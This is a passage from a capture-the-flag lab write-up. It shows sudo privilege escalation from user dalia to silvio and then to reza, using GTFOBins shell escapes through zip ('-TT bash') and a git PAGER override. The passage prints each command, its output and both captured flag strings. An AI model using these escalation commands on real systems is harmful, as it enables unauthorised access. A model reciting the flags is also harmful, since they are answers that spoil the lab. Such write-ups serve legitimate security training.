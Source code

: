Good news, we can execute **.usr/bin/zip**. Let's check [GTFOBINS](https://gtfobins.github.io/gtfobins/zip/#shell)
```
dalia@linuxagency:~$ TF=$(mktemp -u)
TF=$(mktemp -u)
dalia@linuxagency:~$ sudo -u silvio zip $TF /etc/hosts -T -TT 'bash #'
sudo -u silvio zip $TF /etc/hosts -T -TT 'bash #'
  adding: etc/hosts (deflated 37%)
id
uid=1032(silvio) gid=1032(silvio) groups=1032(silvio)
cat /home/silvio/
cat: /home/silvio/: Is a directory
cd /home/silvio
pwd
/home/silvio
ls -l
total 16
-rw-r--r-- 1 silvio silvio 8980 Jan 12  2021 examples.desktop
-rw-r--r-- 1 silvio silvio   41 Jan 12  2021 flag.txt
cat flag.txt
silvio{657b4d058c03ab9988875bc937f9c2ef}

```

# Answer : silvio{657b4d058c03ab9988875bc937f9c2ef}

# What is reza's flag?

Same as usual, check **sudo -l**
```
silvio@linuxagency:~$ sudo -l
sudo -l
Matching Defaults entries for silvio on linuxagency:
    env_reset, env_file=/etc/sudoenv, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User silvio may run the following commands on linuxagency:
    (reza) SETENV: NOPASSWD: /usr/bin/git
```

Now we can execute **/usr/bin/git**.  Let's check [GTFOBINS](https://gtfobins.github.io/gtfobins/git/#shell). We canuse the first method.

```
sudo -u reza PAGER='sh -c "exec sh 0<&1"' git -p help
sudo -u reza PAGER='sh -c "exec sh 0<&1"' git -p help
$ whoami
whoami
reza
$ pwd
pwd
/home/silvio
$ cd /home/reza
cd /home/reza
$ ls -l
ls -l
total 16
-rw-r--r-- 1 reza reza 8980 Jan 12  2021 examples.desktop
-r-------- 1 reza reza   39 Jan 12  2021 flag.txt
$ cat flag.txt
cat flag.txt
reza{2f1901644eda75306f3142d837b80d3e}
```

